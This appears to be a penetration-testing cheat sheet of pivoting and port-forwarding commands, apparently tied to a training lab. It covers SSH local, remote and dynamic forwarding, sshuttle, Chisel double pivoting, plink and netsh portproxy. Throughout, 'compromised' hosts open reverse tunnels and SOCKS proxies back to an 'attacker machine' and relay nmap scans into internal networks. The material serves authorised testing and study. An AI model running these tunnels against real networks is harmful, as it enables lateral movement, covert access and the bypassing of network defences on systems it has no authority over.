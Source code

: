 ### Socks
SOCKS5 supports authentication, IPv6, and User Datagram Protocol (UDP), including DNS. Some SOCKS proxies will only support the SOCKS4 protocol. 
### Port Forwarding
###### RINETD
```
cat /etc/rinetd.conf
...
# bindadress    bindport  connectaddress  connectport
0.0.0.0 80 142.0.128.189  22
...
service rinetd start
```
###### SSH local port forwarding
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/d54b48e3-43ed-4fde-ad3f-2d28b538bde5)

forward all packets which go to remote compromised machine:445 to 192.168.1.110:445(PGDATABASE01)
```
remote compromised machine(confluence01): ssh -N -L 0.0.0.0(src CONFLUENCE01):445:192.168.1.110(dst PGDATABASE01):445 student@PGDATABASE01
```
###### ssh remote port forwarding
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/9355bdff-aa68-4989-aa53-0f3074a39739)

```
remote compromised machine(confluence01): ssh -N -R 127.0.0.1(confluence01):2345:10.4.50.215(PGDATABASE01):5432 kali@192.168.118.4(attacker machine)
```
###### SSH Dynamic Port Forwarding
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/f68cfac3-7e49-4f50-b104-ad7a672958e7)

Dynamic Port Forwarding:
initiating an SSH connection from a remote compromised machine to a further internal network(PGDATABASE01)

After bind proxychains to confluence01, through proxychains all traffic can be forwarded to all ports of PGDATABASE01, accessing 127.0.0.1 is like accessing remote machine(PGDATABASE01)
```
remote compromised machine: ssh -N -D 0.0.0.0:9999(remote compromised machine - confluence01) database_admin@10.4.50.215(PGDATABASE01)

kali@kali(attacker machine):~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 192.168.50.63 9999(remote compromised machine - confluence01)
```
###### SSH Remote Dynamic Port Forwarding 
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/118dc119-bbce-4559-8ec6-5b1c1b7e50f5)

Remote Dynamic Port Forwarding:
initiating an SSH connection from a remote compromised host(confluence to attacker machine)
```
remote compromised machine(confluence01): ssh -N -R 9998 kali@192.168.118.4(attacker machine)(listening state)

kali@kali(attacker machine):~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998(attacker machine)
```
###### sshuttle
```
1. confluence01: socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22(PGDATABASE01)
2. kali(attacker machine): sshuttle -r database_admin@192.168.50.63(PGDATABASE01):2222 10.4.50.0/24 172.16.50.0/24
```
###### Chisel
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/0c4201e9-44ae-4d2f-ad93-a5ddb4317f52)
```
Chisel Reverse dynamic Port Forwarding:
Confluence01: .\chisel.exe client 192.168.45.214:8080 R:socks
kali(attacker machine): chisel server --port 8080 --reverse/chisel server --port 8080 --socks5 --reverse

proxychains4:
add socks5 127.0.0.1 1080(chisel default port to listen)
disable proxy dns
sudo proxychains4 -f /etc/proxychains4.conf nmap -sS -Pn -p 80 172.16.243.10
```

```
<local-host>:<local-port>:<remote-host>:<remote-port>/<protocol>
which shares <remote-host>:<remote-port> from the server to the client as <local-host>:<local-port>

R:<local-interface>:<local-port>:<remote-host>:<remote-port>/<protocol>
  which does reverse port forwarding, sharing <remote-host>:<remote-port>
  from the client to the server's <local-interface>:<local-port>.

Chisel Reverse Port Forwarding
./chisel server --reverse --port 8080 --socks5.
chisel.exe client <kaliIP>:8080 R:8090:172.16.22.2:8000
Now we can access to http://172.16.22.2:8000/ via localhost:8090
```

Double Pivoting  
Kali (10.10.14.227) <<10.10.14.0/24>> DMZ01 (10.129.58.6 | 172.16.8.120) <<192.16.8.0/24>> DC01 (172.16.8.3 | 172.16.9.3) <<172.16.9.0/24>> MGMT01 (172.16.9.25)
```
kali: ./chisel_linux server --socks5 -p 9001 --reverse

/etc/proxychains:
socks5 127.0.0.1 9999
socks5 127.0.0.1 8888

DMZ01:
./chisel_linux client 10.10.14.227:9001 R:9999:socks
./chisel_linux server  -p 9002 --reverse --socks5

DC01:
chisel.exe client 172.16.8.120:9002 R:8888:socks
```

```
Chisel Reverse Multiple ports forwarding:
In local machine
./chisel server -p 9999 --reverse

In remote machine
./chisel client 10.0.0.1:9999 R:3000:127.0.0.1:3000 R:8000:127.0.0.1:8000
After that, we can access to http://localhost:3000 and http://localhost:8000 in local machine.
```

```
Chisel Local Port Forwarding:
In remote
chisel server -p 9999 --socks5

In local
chisel client 10.0.0.1:9999 8000:socks
```
### Windows Port forwarding
###### PLINK.exe
```
cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234(dst):127.0.0.1:3306(source) 10.11.0.4
```
###### Netsh
>for this to work, the Windows system must have the IP Helper service running and IPv6 support must be enabled for the interface we want to use
```
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
netsh interface portproxy del v4tov4 listenport=4455 listenaddress=10.11.0.22
```
###### ssh.exe
```
linux: 
1. sudo systemctl start ssh
windows: 
1. where ssh
2. ssh.exe -V (the version of OpenSSH bundled with Windows needs to be higher than 7.6, then we can use it for remote dynamic port forwarding)
3. ssh -N -R 9998 kali@192.168.118.4
linux: 
1. ss -ntplu(check socks5 9998 port state)
2. tail /etc/proxychains4.conf
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998
3. proxychains command
```
